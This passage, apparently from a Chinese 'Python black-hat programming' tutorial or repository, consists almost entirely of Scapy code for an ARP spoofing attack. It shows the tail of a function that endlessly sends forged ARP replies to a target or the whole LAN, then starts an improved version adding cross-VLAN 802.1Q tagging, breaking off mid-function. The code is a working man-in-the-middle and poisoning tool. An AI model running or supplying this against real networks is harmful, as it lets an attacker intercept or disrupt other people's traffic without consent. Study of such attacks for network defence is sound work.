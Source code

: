 ```python
        
        #如果没有设置目标,则为广播形式
    else:
        mac_borad = 'ff:ff:ff:ff:ff:ff'
        packet = Ether(src=mac_self, dst=mac_borad) /\
        ARP(hwsrc=mac_self, hwdst=mac_borad, psrc=host, pdst=target, op=2)
        print('[+]Poisoning --> Lan')

    try:
        while 1 :
            sendp(packet,verbose=False)

    except KeyboardInterrupt: #捕获Ctrl + C
            print('\n[+]Stopped poison')

if __name__ == '__main__':
    target = ''
    host = '10.35.71.254'
    iface = 'eth0'
    arp_spoof(target,host,iface)

```

**3.完善代码**

加入了跨VLAN的功能 

详见[Python黑帽编程 3.4 跨域VLAN \| 玄魂工作室](http://www.cnblogs.com/xuanhun/p/5841940.html)

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

from scapy.all import (
    get_if_hwaddr,
    getmacbyip,
    ARP,
    Dot1Q,
    Ether,
    sendp,
)
import argparse
import os
import sys
import time

mac_broad = 'ff:ff:ff:ff:ff:ff'

def arp_spoof(iface,target,host,vlan_own=False,vlan_target=False):
    #target 目标机ip
    #host   伪装的ip

    mac_self = get_if_hwaddr(iface) #自身mac

    if target:
        mac_target = getmacbyip(target) #目标机mac

        if not mac_target :
            print('[-]Error: Could not resole targets MAC address')
            sys.exit(1)

        ethernet = Ether(src=mac_self, dst=mac_target)
        arp = ARP(hwsrc=mac_self, psrc=host,hwdst=mac_target,pdst=target, op=2)
        print('[+]Poisoning --> ', target,end=' ')
    else:
```